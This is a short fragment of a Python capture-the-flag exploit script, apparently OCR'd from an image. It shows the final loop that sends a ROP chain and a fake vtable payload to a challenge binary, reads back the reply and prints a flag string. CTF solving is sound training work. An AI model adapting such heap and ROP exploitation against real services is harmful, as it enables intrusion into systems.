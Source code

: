 ```py
        strs = [('\0\n', rop), ('\a\n', vtable_payload)]
        sel3(2, indices, strs)

        print(p.recvuntil('}'))
        break
    except KeyboardInterrupt:
        break
    except:
        pass
    finally:
        destroy()

### flag{must_be_a_197_iq_hacker} ###
```